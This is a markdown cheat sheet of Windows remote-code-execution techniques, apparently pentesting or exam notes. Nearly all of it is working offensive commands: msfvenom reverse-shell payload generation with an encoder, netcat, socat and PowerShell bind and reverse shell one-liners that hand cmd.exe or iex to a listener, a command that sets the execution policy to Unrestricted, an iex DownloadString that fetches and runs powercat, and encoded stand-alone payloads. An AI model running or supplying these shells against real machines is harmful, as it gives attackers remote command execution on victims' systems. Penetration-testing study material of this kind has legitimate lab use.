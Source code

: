 # Windows Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

=== "Shell File"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```

## <a href='https://miloserdov.org/?p=4516' target="blank">Windows remote desktop from Linux</a>

``` bash
rdesktop $ip -u Tester -p Pass
```

``` bash
xfreerdp /f /u:Tester /p:<Pass> /v:192.168.0.101 /drive:D,/tmp
```

## Netcat

### Netcat Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
nc -nlvp 443 -e cmd.exe
```

### Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

## Socat

### Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Windows machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:cmd.exe
```

### Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Windows machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## PowerShell

### Unrestricted

``` powerShell
Set-ExecutionPolicy Unrestricted
Get-ExecutionPolicy
```

### PowerShell Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' +(pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### PowerShell Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.11.130',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Powercat

### Powercat Create Environment

Windows machine

``` powershell
. .\powercat.ps1
```

``` powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Kali machine

``` bash
sudo apt install powercat
cat /usr/share/windows-resources/powercat/powercat.ps1
```

### Powercat Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
powercat -l -p 443 -e cmd.exe
```

### Powercat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe
```

### Powercat Stand-Alone Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -g > shell.ps1

.\shell.ps1
```

### Powercat Encoded Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -ge > encoded_shell.ps1

powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0A...pAAoACgA=
```